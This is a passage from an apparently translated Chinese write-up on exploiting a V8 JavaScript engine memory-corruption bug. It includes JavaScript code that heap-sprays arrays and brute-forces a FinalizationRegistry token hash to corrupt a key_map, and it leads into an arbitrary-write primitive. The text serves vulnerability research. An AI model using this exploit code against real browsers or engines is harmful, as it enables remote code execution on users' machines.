 ```
  }

  const corrupted = sprayIsCorrupted(hash);
if (corrupted) {
    print(`Found the hash 0x${hash.toString(16)}!`);
    valid_hash = hash;
    break;
  }
}
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadW4c5qzY80wNzNYbcibsDERlviaqmQBhFdfibwQ2hFiaLOy5iaO8WR92H8pibaWfyge5MnibLdibXpNkmG4A/640?wx_fmt=png&from=appmsg "")  
  
如果我们的喷射对象在某个调用之后被破坏，则意味着该令牌的哈希值已成功匹配和使用，这证实了它是我们损坏的有效哈希值key_map。  
  
sprayIsCorrupted()现在我们只需要识别它是哪个令牌。一个方案是在每次调用后都运行unregister()，但成本很高。相反，将暴力破解过程分为两个步骤会更高效：  
1. 首先，找出有效的哈希值是否存在（如上）。  
  
1. 然后，检查受影响的对象：  
  

```
// Search which object have this hash
// Unregister each token with the same hash until we corrupt p.spray
let valid_token_index = -1;

for (let token_index = 0; token_index < tokens_with_hash.length; token_index++) {
for (let i = 0; i < p.spray.length; i++) {
    p.spray[i] = uint64ToFloat((BigInt(valid_hash) << 1n) | (0x11n << 32n));
  }
  p.registry.unregister(tokens_with_hash[token_index]);

  const corrupted = sprayIsCorrupted(valid_hash);
if (corrupted) {
    print(`The object at index ${token_index} has the hash 0x${valid_hash.toString(16)}`);
    valid_token_index = token_index;
    break;
  }
}
```

  
  
瞧——我们现在有一个已知的、有效的哈希值与特定的对象绑定在一起：  
  

```
p.token_hash = valid_hash;
p.token = tokens_with_hash[valid_token_index];
```

  
  
不受控制的任意写入  
  
当你调用register()FinalizationRegistry 时，V8 会在内部调用RegisterWeakCellWithUnregisterToken()：  
  